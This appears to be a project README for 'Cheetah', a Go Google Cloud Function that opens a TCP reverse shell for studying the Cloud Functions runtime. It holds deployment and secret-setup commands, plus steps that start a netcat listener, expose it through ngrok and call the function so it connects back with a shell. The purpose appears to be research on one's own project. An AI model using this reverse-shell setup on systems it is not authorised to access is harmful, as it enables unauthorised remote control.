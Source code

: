 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Node.js / NPM](https://nodejs.org/en/download/)
* [Function Deployment Service Account](https://cloud.google.com/functions/docs/concepts/iam#cloud_functions_service_account)

## Deploying The Function

### Serverless Framework

Follow [these steps](https://serverless.com/framework/docs/providers/google/guide/credentials/) to generate a credentials file. Deploy the function by specifying your GCP project ID and the **absolute path** of the credentials file.

```bash
cd /PATH/TO/cheetah/src/cheetah
npm install
GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json npx serverless deploy
```

### Native GCloud Commands

To deploy natively without the serverless framework, configure `gcloud` in the Terminal to authentication as the deployment service account. Then, deploy the function.

```bash
gcloud auth activate-service-account --key-file ~/.gcloud/keyfile.json
gcloud functions deploy cheetah --entry-point Cheetah --runtime go111 --trigger-http --service-account=XXXXXXXXX-compute@developer.gserviceaccount.com
```

## Deploying Assets

Create some secrets and grant permissions to the SA. Side note: wow, they really don't want you passing these values via the command line. Makes sense for real secrets though.

```
echo "cheetah_user" | gcloud beta secrets create cheetah-database-user --data-file=- --replication-policy=automatic

echo "TmV2ZXIgcGxheSBwb2tlciB3aXRoIHRoZSB3b3JsZCdzIGZhc3Rlc3QgYW5pbWFsLCBiZWNhdXNlIGhlJ3MgYSBjaGVldGFoLiAtIGNvb2xmdW5ueXF1b3Rlcy5jb20g" | gcloud beta secrets create cheetah-database-pass --data-file=- --replication-policy=automatic

gcloud beta secrets add-iam-policy-binding cheetah-database-user --member serviceAccount:XXXXXXXXX-compute@developer.gserviceaccount.com --role roles/secretmanager.secretAccessor

gcloud beta secrets add-iam-policy-binding cheetah-database-user --member serviceAccount:XXXXXXXXX-compute@developer.gserviceaccount.com --role roles/secretmanager.secretAccessor
```

## Testing in GCP

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/cheetah --url-id YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
```

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details:

```bash
curl "https://$GCP_REGION-YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID.cloudfunctions.net/Cheetah?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```bash
cd /PATH/TO/cheetah/src/cheetah
GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json npx serverless remove
```

## Linting

```bash
cd /PATH/TO/cheetah/src/cheetah
go get -u golang.org/x/lint/golint
npm run lint
```

## Serverless Go Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template google-go --path cheetah
```

## Exploring Further

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/google/) for more information.
